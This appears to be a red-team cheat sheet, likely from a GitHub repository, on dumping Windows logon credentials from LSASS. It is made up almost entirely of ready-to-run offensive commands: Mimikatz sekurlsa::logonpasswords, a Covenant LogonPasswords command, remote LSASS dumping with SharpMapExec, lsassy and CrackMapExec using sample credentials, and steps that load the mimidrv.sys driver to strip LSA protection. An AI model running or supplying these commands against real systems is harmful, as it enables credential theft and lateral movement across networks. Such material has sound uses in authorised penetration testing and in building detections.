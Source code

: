 ###### Mimikatz Logon Passwords 

```
# set privs
mimikatz # privilege::debug

# run
mimikatz # sekurlsa::logonpasswords
```

###### Covenant Logon Passwords

```
> LogonPasswords 
```

###### Remote LSASS

```
# sharpmapexec from windows
SharpMapExec.exe kerberos winrm /user:sqlsvc /password:Ch3xmix! /domain:vault.local /computername:sql-1.vault.local /m:comsvcs

SharpMapExec.exe ntlm winrm /user:sqlsvc /password:Ch3xmix! /domain:vault.local /computername:sql-1.vault.local /m:comsvcs

# lsassy
$ lsassy 10.90.12.101 -u 'administrator' -p ooAutCRsYr

$ lsassy 10.90.12.101 -u 'administrator' -p ooAutCRsYr -m nanodump -O nanodump_path=/path/to/nanodump.exe

# crackmapexec
$ cme smb 10.90.12.101 -u administrator -p ooAutCRsYr -M lsassy
```

###### Disable LSA protection with Mimikatz

```
# must be local admin or SYTEM
mimikatz # !+

# disable PPL (requires uploading mimidrv.sys)
mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
[...]
```

##### Disable LSA Protection with Invoke-Mimikatz

```
# upload driver
> Upload /filepath:"C:\windows\tasks\mimidrv.sys"

# configure the driver service
> shellcmd sc create mimidrv binPath= C:\windows\tasks\mimidrv.sys type= kernel start= demand

> shellcmd sc start mimidrv

# disable PPL
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""

# procdump, mimikatz, or custom minidumpwritedump
> Assembly /assemblyname:"MyMiniDump" /parameters:""
```